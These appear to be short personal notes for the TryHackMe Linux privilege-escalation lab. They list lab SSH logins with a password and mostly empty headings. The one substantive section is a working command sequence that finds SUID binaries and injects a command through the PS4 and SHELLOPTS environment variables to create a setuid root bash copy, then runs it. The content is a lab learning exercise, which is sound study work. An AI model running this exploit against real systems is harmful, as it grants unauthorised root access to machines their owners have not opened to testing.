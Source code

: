 # TEST SETUP/ENVIRONMENT

# MANUAL ENUMERATION 

# AUTOMATED ENUMERATION 

# MISCONFIGURATIONS/VULNERABILITIES EXPLOITATION 

## TRYHACKME

https://tryhackme.com/room/linuxprivesc

ssh user@10.10.113.192

ssh -oHostKeyAlgorithms=+ssh-dss user@10.10.0.246

pass:password321

## CATEGORY "SUID / SGID EXECUTEABLES" - ABUSING SHELL FEATURES 2

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

/tmp/rootbash -p

rm /tmp/rootbash

exit
```

